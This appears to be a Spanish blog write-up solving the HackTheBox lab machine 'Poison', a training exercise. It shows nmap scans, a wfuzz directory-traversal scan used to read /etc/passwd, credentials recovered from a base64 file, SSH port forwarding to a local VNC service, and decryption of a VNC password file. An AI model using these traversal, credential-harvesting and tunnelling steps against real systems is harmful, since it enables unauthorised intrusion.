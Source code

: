 ```yaml
---
layout      : post
title       : "Poison - HackTheBox"
author      : elc4br4
image       : assets/images/HTB/Poison-HackTheBox/Poison.webp
category    : [ htb ]
tags        : [ FreeBSD ]
---
```


En esta ocasión estaré resolviendo una máquina de nivel MEDIUM de HackTheBox en la que tendremos que explotar la vulnerabilidad Directory Path Transversal y a través de procesos en ejecución encontraremos el servicio VNC y tendremos que crear un Túnel ssh para acceder al mismo.

![](/assets/images/HTB/Poison-HackTheBox/Poison2.png)


![](/assets/images/HTB/Poison-HackTheBox/Poison-rating.webp)

# Reconocimiento de Puertos

```nmap
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Tenemos el puerto 22 (ssh) y el puertto 80 (http)

Escaneo un poco más a fondo para encontrar más información al respecto.

```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

# Enumeración Web 

Al acceder desde el navegador para revisar el servidor web vemos lo siguiente:

![](/assets/images/HTB/Poison-HackTheBox/web1.webp)

Si añadimos en el campo el parámetro listfiles.php

![](/assets/images/HTB/Poison-HackTheBox/web2.webp)

Podemos ver que hay un archivo llamado pwdbackup.txt

![](/assets/images/HTB/Poison-HackTheBox/web3.webp)

En el hay una contraseña encodeada en base64 13 veces.

Tras decodear la cadena base64 13 veces encontramos la contraseña.

> Charix!2#4%6&8(0 

Tenemos una contraseña pero aún nos falta un usuario, asique al ver que en el servidor web tenemos muchos archivos .php procedo a comprobar si podría existir alguna vulnerabilidad LFI o Directory Transversal.

A través de un diccionario y la herramienta wfuzz compruebo si existe alguna de estas vulnerabilidades.

> `wfuzz -c -w /usr/share/payloadsallthethings/"Directory Traversal"/Intruder/dotdotpwn.txt -u 'http://10.10.10.84/browse.php?file=FUZZ' --hl=4,2`

![](/assets/images/HTB/Poison-HackTheBox/wfuzz.webp)

Todas esas rutas podríamos usar para leer el archivo passwd.

![](/assets/images/HTB/Poison-HackTheBox/passwd.webp)

Tenemos el usuario Charix y su contraseña.

> Charix:Charix!2#4%6&8(0

Ahora intento loguearme con esas credenciales a través de ssh para obtener acceso al sistema.

# Sesión SSH

Una vez nos logueamos podemos leer la flag user.txt 

![](/assets/images/HTB/Poison-HackTheBox/user.webp)

# Escalada de Privilegios

Ahora toca escalar privilegios para leer la flag root.txt

En el directorio de usuario de Charix tenemos un archivo llamado secret.zip

Nos lo descargamos a nuestra máquina atacante

```bash
❯ scp charix@10.10.10.84:/home/charix/secret.zip .
Password for charix@Poison:
secret.zip
```
Y lo descomprimimos usando la contraseña que usamos para conectarnos por ssh (Charix!2#4%6&8(0)

![](/assets/images/HTB/Poison-HackTheBox/secret.webp)

Tenemos caracteres no legibles, lo que me hace pensar que estoy yendo por el camino equivocado.

Dejo a un lado el archivo y enumero más vectores de escalada.

Miro los procesos existentes en ejecución con el comando `ps aux`

> `root   529   0.0  0.9  23620  8872 v0- I    22:34    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -d`

```netstat
charix@Poison:~ % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.22         10.10.14.3.54562       ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*                    
udp6       0      0 *.514                  *.*                    
Active UNIX domain sockets
```

Tenemos el servicio VNC activo en el puerto 5901, asique para poder conectarme he de crear un tunel a través de ssh.

Para crear el túnel:

> `❯ ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84`

Una vez creado ya puedo conectarme al servicio VNC a través de la herramienta vncviewer.

Podéis descargar la herramienta VNCViewer desde aquí [https://www.realvnc.com/es/connect/download/viewer/linux/](https://www.realvnc.com/es/connect/download/viewer/linux/)

Lo descargo e intento conectarme pero me pide una contraseña, pruebo con la del usuario Charix pero no funciona.

Pruebo introduciendo los datos del archivo secret que unzipeamos pero nada, asique se me ocurre probar con secret (el nombre del archivo).

Pero tampoco hay suerte... asique intento decodificar el contenido del archivo secret.

Encuentro esta herramienta [https://github.com/trinitronx/vncpasswd.py](https://github.com/trinitronx/vncpasswd.py) 

La consigo decodificar

```vncpass
❯ python2 vncpasswd.py -d -f /home/elc4br4/secret
Decrypted Bin Pass= 'VNCP@$$!'
Decrypted Hex Pass= '564e435040242421'
```

Y ya puedo conectarme.

> `❯ vncviewer 127.0.0.1:5901 -passwd VNCP@$$!`

![](/assets/images/HTB/Poison-HackTheBox/vnc.webp)

